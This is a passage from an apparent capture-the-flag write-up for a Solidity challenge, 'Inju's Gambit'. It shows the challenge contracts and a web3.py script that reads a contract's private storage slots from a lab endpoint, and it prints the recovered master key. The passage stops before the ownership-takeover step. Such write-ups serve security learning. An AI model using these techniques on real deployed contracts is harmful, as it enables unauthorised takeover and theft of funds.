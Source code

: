 # Inju's Gambit

> Inju owns all the things in the area, waiting for one worthy challenger to emerge.
>  Rumor said, that there many ways from many different angle to tackle Inju.
>  Are you the Challenger worthy to oppose him?

Attached files: [Setup.sol](./source/Setup.sol), [ChallengeManager.sol](./source/ChallengeManager.sol), [Privileged.sol](./source/Privileged.sol)

## Challenge Outline
As usual, the goal of the challenge is to make the isSolved function in the setup contract return true.
```solidity
function isSolved() public view returns(bool){
    return address(privileged.challengeManager()) == address(0);
}
```

## Approach
Our goal is to set the challengeManager address in the privileged contract to the null address (0x000...). I started looking though the Privileged.sol contract for a function that coudl accomplish this. Fortunately, the fireManager functions appears to do just that:
```solidity
function fireManager() public onlyOwner{
    challengeManager = address(0);
}
```
However, to call fireManager, we first need to become the owner of the privileged contract. The current owner is the contract that deployed it: the challenge manager contract. I then reviewed the challenge manager contract for a function that would either allow us to call fireManager or become the owner ourselves.
```solidity
function challengeCurrentOwner(bytes32 _key) public onlyChosenChallenger{
    if(keccak256(abi.encodePacked(_key)) == keccak256(abi.encodePacked(masterKey))){
        privileged.setNewCasinoOwner(address(theChallenger));
    }
}
```
The challengeCurrentOwner function allows us to become the owner if we meet two conditions: being the chosen challenger and having the master key. 
### Obtaining the key
The `bytes32 private masterKey` means that the masterKey is a private variable and we cannot access it externally. Even though it is called private, it is still stored publicly on the blockchain, allowing us to read it from its storage slot. A contract's state variables are stored in storage slots and by reading these slots, we can find the value of the master key.
```python
from web3 import Web3

rpc_url = "http://45.32.119.201:44445/f03fa921-b78f-4d64-87b1-e25a5af93fd1"  # rpc endpoint
w3 = Web3(Web3.HTTPProvider(rpc_url))
if not w3.is_connected():
    print("Couldn't connect")
    exit(1)

def read_slot(address, slot):
    value = w3.eth.get_storage_at(address, slot)
    return value

contract_addr = "0x4635c4064F565f0a5ca43D4893a2a6977F2B2655"  # the address of the challengeManager contract
for x in range(10):
    key = read_slot(contract_addr, x)
    print(x, key, key.hex())
```
This is the Python script I used to read the first ten slots of the contract.
You can determine which slot a certain variable is stored in based on the order they are declared, but I was lazy and decided to just print them all out :P.  
Output:
```
0 b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x1f\x92\xa4\x06\xa6i\xaf\xf94\xe2*n\xd5\xcel\xf5|\xa3\x1f5' 0000000000000000000000001f92a406a669aff934e22a6ed5ce6cf57ca31f35
1 b'INJUINJUINJUSUPERKEYKEYKEYKEYKEY' 494e4a55494e4a55494e4a5553555045524b45594b45594b45594b45594b4559
2 b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' 0000000000000000000000000000000000000000000000000000000000000000
3 b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xf8\xcfh>\x96\xae\xe5\x06wow\x06\x97\x86\xaaz\xf0+\x03\x90' 000000000000000000000000f8cf683e96aee506776f77069786aa7af02b0390
4 b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00Ec\x91\x82D\xf4\x00\x00' 0000000000000000000000000000000000000000000000004563918244f40000
```
From the output, I think it is safe to assume that INJUINJUINJUSUPERKEYKEYKEYKEYKEY is our master key.

### Becoming the owner
After looking through the functions in ChallengeManager.sol, I noticed that the only function that would allow us to become the owner was the upgradeChallengerAttribute function. 
